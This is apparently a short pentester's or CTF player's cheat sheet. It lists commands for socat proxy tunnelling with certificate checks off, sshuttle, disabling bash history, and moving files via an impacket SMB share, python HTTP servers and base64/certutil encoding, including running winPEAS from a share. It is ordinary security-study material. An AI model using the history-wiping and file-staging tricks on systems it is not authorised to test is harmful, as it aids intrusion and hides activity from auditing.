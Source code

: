 ## Find the meaning of unknown error codes with certutil:
`certutil -error <error_id>`

## Access HTTPS proxy with proxychains:
Proxychains supports SOCKS4, SOCKS5 and HTTP but not HTTPS.  
Using socat to create an HTTPS tunnel between a local port and a remote proxy:  
`socat TCP-LISTEN:19999,bind=127.0.0.1,fork,reuseaddr OPENSSL:proxy.yolo.com:8000,verify=0`  
(verify=0 to bypass certificate errors, for example self-signed client certificate)  

Then in `/etc/proxychains.conf` :
`http 127.0.0.1 19999`

From <https://github.com/rofl0r/proxychains-ng/issues/337>  
  
## SSH Tunneling 
Use `sshuttle` : https://github.com/sshuttle/sshuttle  
  
## Temporarily turn off bash history:  
`unset HISTFILE`  
`set +o history`   
  
## File transfer techniques: 
### Using SMB:  
`impacket-smbserver share .`  
Then `//10.10.14.108/share/winPEASx64.exe searchall cmd`    
  
### Using python:  
`python2 -m SimpleHTTPServer <PORT>`  
`python3 -m http.server <PORT>`  
  
### Using a compiled binary for Windows:  
`pip install pyinstaller`  
`pyinstaller web.py --onefile`  
  
`web.exe <PORT>`  
  
### Using base64 encoding:  
Server-side (Linux)  
`base64 -w 0 <FILE> | xclip -selection clipboard`  
  
Server-side (Windows). Newlines can be trimmed on Linux using sed.  
`certutil -encode <FILE> tmp_file_base64.txt`  
`sed ':a;N;$!ba;s/\n//g' <FILE>`  
  
Client-side - Linux  
`echo '<BASE64_FILECONTENT>' | base64 --decode > <OUTPUT_FILE>`  
  
Client-side - Windows  
`echo <BASE64_FILECONTENT> > tmp_file_base64.txt`  
`certutil -decode tmp_file_base64.txt <OUTPUT_FILE>`  
`del tmp_file_base64.txt`  
From <https://notes.qazeer.io/general/file_transfer>    
  
